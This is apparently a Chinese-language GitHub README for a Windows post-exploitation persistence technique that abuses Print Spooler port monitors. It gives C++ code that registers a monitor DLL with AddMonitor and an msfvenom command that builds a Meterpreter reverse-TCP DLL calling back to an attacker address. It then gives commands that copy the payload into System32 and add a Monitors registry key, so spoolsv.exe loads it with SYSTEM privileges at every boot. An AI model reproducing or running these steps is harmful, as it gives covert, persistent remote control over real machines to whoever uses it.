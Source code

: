 #### 项目说明

用于实现后渗透测试阶段权限维持

#### 项目使用

**Step1**：下载该项目，之后使用VS编译Monitor.cpp，当然也可以使用编译好的，Monitor.cpp代码如下所示：

~~~
#include "Windows.h"

int main() {
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("Monitor");
	TCHAR dll[12] = TEXT("test.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
~~~

- pName //监视器名称 
- pEnvironment //环境架构 
- pDLLName //监视器DLL文件的名称

**Step 2**：使用Msfvenom生成dll攻击载荷：

~~~
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.188.129 LPORT=4444 -f dll > shell.dll
~~~

![test_dll](images\test_dll.png)

**Step 3**：将shell.dll复制到目标主机的system32目录下，之后重命名为test.dll(也就是上面的PDLLName，你也可以自己修改为自己喜欢的，总之随意)

~~~
copy C:\temp\shell.dll C:\Windows\System32\test.dll
~~~

![copy](images\copy.png)

**Step 4**：之后进入system32目录，并执行以下命令(Monitors.exe为之前编译好的文件，也需要放置到system32目录下)：

~~~
Monitors.exe
~~~

![Monitor](images\Monitor.png)

**Step 5**：之后成功接收到Meterpreter会话

![Meterpreter](images\Meterpreter.png)

#### 持久化实现

为了实现持久性，我们需要在"Monitors"注册表位置下设置一个key:

~~~
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors
~~~

之后在命令行下执行以下命令创建一个注册表项，该注册表项将包含值test.dll，从编辑器中查看注册表验证密钥是否已创建：

~~~
reg add "hklm\system\currentcontrolset\control\print\monitors\Pentestlab" /v "Driver" /d "test.dll" /t REG_SZ
~~~

![regedit](images\regedit.png)

下次重新启动时，spoolsv.exe进程将加载Monitors注册表项中存在并存储在Windows文件夹System32中的所有驱动程序DLL文件，下图演示了Meterpreter会话已建立与Print Spooler服务(SYSTEM)相同级别的特权，并且已从System32文件夹执行了

![shell](images\shell.png)




